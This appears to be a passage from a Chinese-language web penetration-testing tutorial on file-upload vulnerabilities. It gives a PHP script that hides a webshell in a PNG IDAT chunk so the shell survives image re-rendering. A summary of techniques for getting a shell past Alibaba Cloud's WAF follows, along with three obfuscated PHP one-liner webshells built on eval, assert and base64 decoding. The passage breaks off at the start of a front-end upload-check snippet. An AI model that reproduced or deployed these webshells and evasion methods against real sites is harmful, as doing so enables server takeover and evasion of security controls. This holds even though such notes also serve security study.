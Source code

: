 ![image.png](02.文件上传.assets/2023_05_19_14_38_13_PZBcWpoe.png)
#### 写入 IDAT 数据块
 可以通过php脚本实现，也可以使用其他语言实现的项目，Python：[PNG-IDAT-Payload-Generator](https://github.com/huntergregal/PNG-IDAT-Payload-Generator)：  
```php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23, 0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae, 0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc, 0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f, 0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c, 0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d, 0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1, 0x66, 0x44, 0x50, 0x33); 
$img = imagecreatetruecolor(32, 32); 
for ($y = 0; $y < sizeof($p); $y += 3) { 
  $r = $p[$y]; $g = $p[$y+1]; 
  $b = $p[$y+2]; 
  $color = imagecolorallocate($img, $r, $g, $b); 
  imagesetpixel($img, round($y / 3), 0, $color); 
} 
imagepng($img); 
// php png_payload.php > 1.png 
// <?=$_GET[0]($_POST[1]);?> //写入的webshell
```
 其他的webshell需要通过爆破的方法得到，参考：[https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)
### 总结
从这个实例中，研究了GIF、PNG、JPG图片二次渲染，并整理了生成工具。在漏洞点有二次渲染且存在阿里云WAF的情况下，getshell的流程方法。包括:
1.换行绕过阿里云WAF上传文件检测；
2.jpg_paylaod脚本绕过图片二次渲染；
3.webshell免杀过云WAF上传;
4.流量编码过WAF流量检测。
5.一些用到的基础PHPwebshell:
```php
//过文件内容检测 
<?=@$_=$_REQUEST;eval(array($_[_])[0]); 
<?=@$_=$_POST;call_user_func_array("assert",array($_[_])); 
//过文件内容和流量检测 
<?=@$_=$_POST;$x=BASE64_DECODE($_[d]);@EVAL(($x));

```
## 绕过总结
### 0x1 前端检测
```php
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
```